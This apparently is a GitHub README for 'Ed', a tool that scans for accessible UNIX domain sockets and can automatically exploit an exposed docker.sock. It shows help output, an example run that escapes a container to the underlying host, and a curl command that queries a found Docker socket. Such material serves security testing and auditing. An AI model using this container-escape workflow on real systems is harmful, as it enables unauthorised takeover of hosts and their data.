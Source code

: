 # ed
Ed is a tool used to identify and exploit accessible UNIX Domain Sockets

# What does it do?
Ed is a binary to help you find and exploit accessible UNIX domain sockets on a container or host. This is useful for hunting Docker.sock when it has been mounted to a non-default location and or not mounted with the default name i.e  "/var/run/Docker.sock".

# Why ed?
Finding exposed UNIX domain sockets, especially Docker.sock, is very useful ;) Ed can be useful in a DevOps process to ensure that Containers do not have any unnecessarily exposed sockets.

# Usage
Ed can be used to look for plain 'ol UNIX domain sockets, UNIX domain sockets that respond to HTTP requests or UNIX domain sockets that behave like Docker.sock. Ed by default searches from the CWD. To use Ed, get the binary on the host and use the following options:

 ```
  ./ed -h
[+] Hunt 'dem Socks
Usage of ./ed:
  -autopwn
        Attempt to autopwn exposed sockets
  -docker
        Hunt for docker.sock
  -http
        Hunt for Available UNIX Domain Sockets with HTTP
  -interfaces
        Display available network interfaces
  -json
        Return output in JSON format
  -path string
        Path to Start Scanning for UNIX Domain Sockets (default ".")
  -socket
        Hunt for Available UNIX Domain Sockets (default true)
  -verbose
        Verbose output

```

Example: Autopwn exposed Docker Domain Socket

```
root@2ae7f389d44c:/app# ./ed -path=/ -autopwn=true
[+] Hunt 'dem Socks
[+] Hunting Down UNIX Domain Sockets from: /
[*] Valid Socket: /tmp/docker.mock
[+] Attempting to autopwn
[+] Hunting Docker Socks
[+] Attempting to Autopwn:  /tmp/docker.mock
[*] Getting Docker client...
[*] Successfully got Docker client...
[+] Attempting to escape to host...
You are now on the underlying host
/ # 
/ # exit
[*] Successfully exited TTY
[+] Finished
```

 Example: Look for exposed Docker.sock
 
 ```
 root@2ae7f389d44c:/app# ./ed -path=/    
[+] Hunt 'dem Socks
[+] Hunting Down UNIX Domain Sockets from: /
[*] Valid Socket: /run/docker.sock
 
 ```
 
 And now that you have found an exposed Docker socket, you could go ahead and issue commands to the Docker daemon using CURL:
 
 ```
 root@70a7cf3d4f93:/app# curl --unix-socket  /var/run/docker.sock http:/docker/info
 ..l00t
 ```
 
 # Testing
Ed can be tested with Docker, WARNING, mouting Docker.sock into containers is a very bad idea but if you want to test Ed, you can with the following:

```
docker-compose build && docker-compose up
...
worker_1_fd52bdee04ce | [+] Hunt 'dem Socks
worker_1_fd52bdee04ce | [+] Hunting Down UNIX Domain Sockets from: /
worker_1_fd52bdee04ce | [*] Valid Socket: /run/docker.sock
ed_worker_1_fd52bdee04ce exited with code 0

```
 
 # License
 Ed is licensed under a Creative Commons Attribution-NonCommercial-ShareAlike 4.0 International License (http://creativecommons.org/licenses/by-nc-sa/4.0).
